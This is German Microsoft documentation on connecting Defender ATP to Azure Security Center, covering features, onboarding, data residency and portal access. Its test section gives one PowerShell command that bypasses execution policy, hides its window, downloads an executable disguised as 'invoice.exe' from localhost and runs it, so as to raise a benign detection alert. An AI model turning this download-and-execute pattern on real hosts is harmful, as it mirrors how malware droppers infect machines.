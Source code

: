 ```yaml
---
title: Microsoft Defender Advanced Threat Protection – Azure Security Center
description: Dieses Dokument stellt die Integration von Azure Security Center und Microsoft Defender Advanced Threat Protection vor.
services: security-center
documentationcenter: na
author: memildin
manager: rkarlin
ms.service: security-center
ms.devlang: na
ms.topic: conceptual
ms.tgt_pltfrm: na
ms.workload: na
ms.date: 04/07/2020
ms.author: memildin
ms.openlocfilehash: f8ed7dc2caf3ad471ea7d4bb2fc8213114aad109
ms.sourcegitcommit: 3d79f737ff34708b48dd2ae45100e2516af9ed78
ms.translationtype: HT
ms.contentlocale: de-DE
ms.lasthandoff: 07/23/2020
ms.locfileid: "87089701"
---
```

# <a name="microsoft-defender-advanced-threat-protection-with-azure-security-center"></a>Microsoft Defender Advanced Threat Protection mit Azure Security Center

Azure Security Center bietet Integration von [Microsoft Defender Advanced Threat Protection (ATP)](https://www.microsoft.com/microsoft-365/windows/microsoft-defender-atp), um umfassende Funktionen für Endpoint Detection and Response (EDR) bereitzustellen.

## <a name="microsoft-defender-atp-features-in-security-center"></a>Microsoft Defender ATP-Features in Security Center

Microsoft Defender ATP bietet:

- **Erweiterte Erkennungssensoren für Sicherheitsverletzungen**: Microsoft Defender ATP-Sensoren für Windows-Server erfassen eine breite Palette von verhaltensbezogenen Signalen.

- **Auf Analysen basierende, cloudgesteuerte Erkennung von Sicherheitsverletzungen:** : Microsoft Defender ATP nimmt eine schnelle Anpassung an sich ändernde Bedrohungen vor. Das Produkt verwendet fortschrittliche Analysen und Big Data. Microsoft Defender ATP wird durch die Leistungsfähigkeit von Intelligent Security Graph mit Signalen aus Windows, Azure und Office verstärkt, um unbekannte Bedrohungen zu erkennen. Das Produkt stellt aussagekräftige Warnmeldungen zur Verfügung und ermöglicht eine schnelle Reaktion.

- **Informationen zu Bedrohungen**: Microsoft Defender ATP generiert Warnungen, wenn es Angriffstools, -techniken und -verfahren erkennt. Das Produkt verwendet Daten, die von Microsoft-Bedrohungsspezialisten und Sicherheitsteams generiert werden, ergänzt durch Informationen von Partnern.


Durch die Integration von Defender ATP in das Azure Security Center können Sie außerdem von den folgenden zusätzlichen Funktionen profitieren:

- **Automatisiertes Onboarding**: Die Integration aktiviert automatisch den Microsoft Defender ATP-Sensor für Windows-Server, die von Azure Security Center überwacht werden (sofern sie nicht Windows Server 2019 ausführen).

- **Zentralisierte Benutzeroberfläche**: Die Azure Security Center-Konsole zeigt Microsoft Defender ATP-Warnungen an. Verwenden Sie Microsoft Defender ATP, um weitere Informationen zu erhalten. Microsoft Defender ATP zeigt zusätzliche Informationen wie die Warnprozessstruktur und den Ereignisgraph an. Sie können auch eine detaillierte Computerzeitachse verwenden, die jedes Verhalten über einen historischen Zeitraum von bis zu sechs Monaten anzeigt.

    ![Microsoft Defender ATP-Seite mit Detailinformationen zu einer Warnung](media/security-center-wdatp/image3.png)

## <a name="platform-support"></a>Plattformunterstützung

Microsoft Defender ATP in Security Center unterstützt die Erkennung unter Windows Server 2016-, 2012 R2- und 2008 R2 SP1. Für Azure-VMs benötigen Sie ein Abonnement im Standard-Tarif, und für Nicht-Azure-VMs benötigen Sie den Standard-Tarif nur auf Arbeitsbereichsebene.

Die Serverendpunktüberwachung, die diese Integration verwendet, wurde für Office 365-GCC-Kunden deaktiviert.

## <a name="data-storage-location"></a>Datenspeicherort

Wenn Sie Azure Security Center zum Überwachen von Servern verwenden, wird automatisch ein Microsoft Defender ATP-Mandant erstellt. Die von Microsoft Defender ATP gesammelten Daten werden im Rahmen der Bereitstellung des Mandanten am Standort des Mandanten gespeichert. Kundendaten in pseudonymierter Form können auch in den zentralen Speicher- und Verarbeitungssystemen in den USA gespeichert werden. 

Nach der Konfiguration können Sie den Speicherort der Daten nicht mehr ändern. Wenn Sie Ihre Daten an einen anderen Standort verschieben möchten, wenden Sie sich an den Microsoft-Support, um den Mandanten zurückzusetzen.


## <a name="onboarding-servers-to-security-center"></a>Integrieren von Servern in Azure Security Center 

Klicken Sie unter der Integration von Servern in Microsoft Defender ATP auf **Go to Azure Security Center to onboard servers** (Zum Azure Security Center wechseln, um Server zu integrieren), um Server in Security Center zu integrieren.

1. Wählen Sie im Bereich **Onboarding** einen Arbeitsbereich aus (oder erstellen Sie einen Arbeitsbereich), in dem die Daten gespeichert werden sollen.

2. Wenn nicht alle Arbeitsbereiche angezeigt werden, kann dies auf fehlende Berechtigungen zurückzuführen sein. Stellen Sie daher sicher, dass Ihr Arbeitsbereich auf den Azure Security-Tarif „Standard“ festgelegt ist. Weitere Informationen finden Sie unter [Upgrade auf den Standard-Tarif von Azure Security Center für erhöhte Sicherheit](security-center-pricing.md).
    
3. Wählen Sie **Server hinzufügen** aus, um Anweisungen zum Installieren des Log Analytics-Agents anzuzeigen. 

4. Nach der Integration können Sie die Computer unter **Compute und Apps** überwachen.

   ![Integrieren von Computern](media/security-center-wdatp/onboard-computers.png)

## <a name="enable-microsoft-defender-atp-integration"></a>Aktivieren der Microsoft Defender ATP-Integration

Wählen Sie **Security Center** > **Preise & Einstellungen** aus, und klicken Sie auf Ihr Abonnement, um anzuzeigen, ob die ATP-Integration von Microsoft Defender aktiviert ist.
Hier können Sie die Integrationen anzeigen, die zurzeit aktiviert sind.

  ![Einstellungsseite der Azure Security Center-Bedrohungserkennung mit aktivierter Microsoft Defender ATP-Integration](media/security-center-wdatp/enable-integrations.png)

- Wenn Sie die Server bereits in die Standardebene von Azure Security Center integriert haben, müssen Sie keine weiteren Maßnahmen ergreifen. Azure Security Center integriert die Server automatisch in Microsoft Defender ATP. Das Onboarding kann bis zu 24 Stunden dauern.

- Wenn Sie die Server noch nie in die Standardebene von Azure Security Center integriert haben, integrieren Sie sie wie gewohnt in Azure Security Center.

- Gehen Sie folgendermaßen vor, wenn Sie die Server über Microsoft Defender ATP integriert haben:
  - Verwenden Sie die Anleitungen in der Dokumentation zum [Aufheben der Integration von Servercomputern](https://go.microsoft.com/fwlink/p/?linkid=852906).
  - Integrieren Sie diese Server in Azure Security Center.

## <a name="access-to-the-microsoft-defender-atp-portal"></a>Zugreifen auf das Microsoft Defender ATP-Portal

1. Befolgen Sie die Anweisungen unter [Zuweisen von Benutzerzugriff auf das Portal](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/assign-portal-access).

1. Überprüfen Sie, ob Sie einen Proxy oder eine Firewall einsetzen, der bzw. die anonymen Datenverkehr blockiert. Der Defender ATP-Sensor stellt eine Verbindung vom Systemkontext her, daher muss anonymer Datenverkehr zugelassen werden. Um den ungehinderten Zugriff auf das Microsoft Defender ATP-Portal sicherzustellen, befolgen Sie die Anweisungen unter [Aktivieren des Zugriffs auf Windows Defender ATP-Dienst-URLs im Proxyserver](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-proxy-internet#enable-access-to-microsoft-defender-atp-service-urls-in-the-proxy-server).

## <a name="test-the-feature"></a>Testen des Features

So generieren Sie eine unbedenkliche Microsoft Defender ATP-Testwarnung:

1. Erstellen Sie einen Ordner „C:\test-MDATP-test“.

1. Verwenden Sie Remotedesktop, um auf eine Windows Server 2012 R2-VM oder eine Windows Server 2016-VM zuzugreifen. Öffnen Sie ein Befehlszeilenfenster.

1. Kopieren Sie an der Eingabeaufforderung den folgenden Befehl, und führen Sie ihn aus. Das Eingabeaufforderungsfenster wird automatisch geschlossen.

    ```
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe'); Start-Process 'C:\\test-MDATP-test\\invoice.exe'
    ```

   ![Ein Eingabeaufforderungsfenster mit dem oben gezeigten Befehl](media/security-center-wdatp/image4.jpeg)

1. Wenn der Befehl erfolgreich ist, wird Ihnen eine neue Warnung im Azure Security Center-Dashboard und im Microsoft Defender ATP-Portal angezeigt. Die Anzeige dieser Warnung kann einige Minuten dauern.

1. Um die Warnung in Security Center zu überprüfen, navigieren Sie zu **Sicherheitswarnungen** > **Verdächtige PowerShell-Befehlszeile**.

1. Wählen Sie im Untersuchungsfenster den Link aus, um zum Microsoft Defender ATP-Portal zu navigieren.

## <a name="next-steps"></a>Nächste Schritte

- [Von Azure Security Center unterstützte Features und Plattformen](security-center-os-coverage.md)
- [Festlegen von Sicherheitsrichtlinien in Azure Security Center](tutorial-security-policy.md): Erfahren Sie, wie Sie Sicherheitsrichtlinien für Ihre Azure-Abonnements und -Ressourcengruppen konfigurieren.
- [Verwalten von Sicherheitsempfehlungen in Azure Security Center](security-center-recommendations.md): Erfahren Sie, wie Empfehlungen Ihnen beim Schutz Ihrer Azure-Ressourcen helfen.
- [Überwachen der Sicherheitsintegrität in Azure Security Center](security-center-monitoring.md): Hier erfahren Sie, wie Sie die Integrität Ihrer Azure-Ressourcen überwachen.